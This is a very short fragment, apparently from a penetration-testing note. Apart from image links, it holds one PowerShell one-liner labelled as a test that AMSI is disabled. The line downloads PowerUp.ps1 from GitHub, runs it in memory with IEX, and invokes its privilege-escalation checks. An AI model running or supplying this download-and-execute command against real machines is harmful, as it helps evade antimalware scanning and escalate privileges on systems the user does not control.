 Test AMSI is Disabled: `IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks`

![image](https://github.com/user-attachments/assets/f99a5ed5-45ed-445e-b25c-45e15fe9f138)
